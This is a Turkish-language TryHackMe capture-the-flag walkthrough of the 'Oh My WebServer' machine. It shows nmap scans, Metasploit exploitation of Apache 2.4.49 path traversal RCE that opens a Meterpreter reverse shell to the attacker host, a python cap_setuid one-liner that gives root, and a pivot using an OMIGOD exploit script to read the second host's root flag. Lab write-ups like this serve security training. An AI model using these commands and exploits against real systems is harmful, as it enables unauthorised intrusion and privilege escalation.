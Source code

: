 # TryHackMe - Oh My WebServer

Merhabalar, bu yazımda sizlere tryhackme.com platformunda bulunan "Oh My WebServer" isimli makinenin çözümünü göstereceğim. İlk önce nmap aracını kullanarak makinede açık olan portları görüntüleyeceğim.

```markdown
> nmap -sVC --min-rate 1000 10.10.161.62

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-06 14:13 EDT
Nmap scan report for 10.10.161.62
Host is up (0.075s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
> 80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
> |_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

http methotlarından biri olan trace methodunun açık olduğunu ve bu methotun bir risk yarattığını belirtmiş ancak internette bunun bir önemli bir risk oluşturduğuna dair bir yazı göremedim. Bunun dışında apache httpd'nin 2.4.49 versiyonunu kullanıyormuş. Bu servisin 2.4.49 versiyonunda uzaktan kod yürütme zafiyeti bulunuyor.

```markdown
msf6 > search 2.4.49

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
   1    \_ target: Automatic (Dropper)              .                .          .      .
   2    \_ target: Unix Command (In-Memory)         .                .          .      .
   3  auxiliary/scanner/http/apache_normalize_path  2021-05-10       normal     No     Apache 2.4.49/2.4.50 Traversal RCE scanner
   4    \_ action: CHECK_RCE                        .                .          .      Check for RCE (if mod_cgi is enabled).
   5    \_ action: CHECK_TRAVERSAL                  .                .          .      Check for vulnerability.
   6    \_ action: READ_FILE                        .                .          .      Read file on the remote server.


Interact with a module by name or index. For example info 6, use 6 or use auxiliary/scanner/http/apache_normalize_path
After interacting with a module you can manually set a ACTION with set ACTION 'READ_FILE'
```

Exploiti seçtikten sonra options komutunu kullanarak vermemiz gereken bilgileri görüyoruz ve `set isim değer` şeklinde bilgileri ekliyoruz. Devamında da run veya exploit komutunu kullanarak exploiti çalıştırabiliriz.

```markdown
msf6 exploit(multi/http/apache_normalize_path_rce) > set rport 80
rport => 80
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 10.9.2.218:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://10.10.161.62:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://10.10.161.62:80 - Attempt to exploit for CVE-2021-42013
[*] http://10.10.161.62:80 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] Sending stage (3045380 bytes) to 10.10.161.62
[*] Meterpreter session 1 opened (10.9.2.218:4444 -> 10.10.161.62:53798) at 2024-06-06 14:24:20 -0400
[!] This exploit may require manual cleanup of '/tmp/uycb' on the target

meterpreter > pwd
/bin
```

Sisteme başarılı bir şekilde giriş yaptım ve home dizini altında kullanıcı bayrağını almaya gittim. Ancak dizinde herhangi bir kullanıcı dizini yoktu. user.txt görüntüleyebildiğimiz hiçbir dizinin içerisinde yer almıyordu. Bu yüzden metasploitte bulunan exploit suggester modülünü kullandım. Her ne kadar bir uygun bir exploit bulduğunu söylese de exploit'i hiçbir şekilde çalıştıramadım. Ancak bu sayede kenarda yazan makinenin local ip adresini fark edebildim. Bulunduğum makine 172.17.0.2 adresine sahip. Mantıken 172.17.0.1 şeklinde bir makine de vardır diye düşündüm. O makine ile de ilgileneceğim ama öncelikle bu makinede yetki yükseltmem gerekiyor, /root dizininin içerisinde önemli bir bilgi olabilir.

```markdown
> getcap -r /

...
/usr/bin/python3.7 = cap_setuid+ep
```

![1](https://github.com/ronark7/writeups/assets/165813191/a5c32be4-b477-4e27-9f69-50e635f14389)

```
daemon@4a70924bafa0:/$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
id
uid=0(root) gid=1(daemon) groups=1(daemon)
```

/root dizini altında user.txt dosyası bulunuyor, buradan kullanıcı bayrağını aldıktan sonra sistemde biraz daha vakit öldürdüm. Ancak diğer makine için daha fazla bilgi çıkaramadım. Bu durumda ilk başta yaptığımız gibi bir port taraması daha gerçekleştirip diğer makineyi tanımaya çalışmalıyız. Metasploit'in içerisinde local ağda port taraması yapabilmek için bir modül bulunmuyor. Bu yüzden port taramasını yapabilmek için nmap'in ikili dosyasını indirip çalıştıracağım.

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap

```markdown
./nmap 172.17.0.1 -p- --min-rate 10000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-06 19:14 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000029s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:B0:6A:65:D0 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 20.16 seconds
```

Taramada nedense versiyon taraması gerçekleştiremiyorum. Her neyse bu çokta önemli değil 5986 numaralı porta uygun bir exploit buldum ve sisteme yükledim daha sonra ise bu exploitten faydalanarak karşı makineden root.txt dosyasını aldım.

https://github.com/CyberMonitor/CVE-2021-38648/blob/main/CVE-2021-38647.py

```markdown
# /usr/bin/python3.7 exploit.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"
/usr/bin/python3.7 exploit.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"
THM{************************}
```

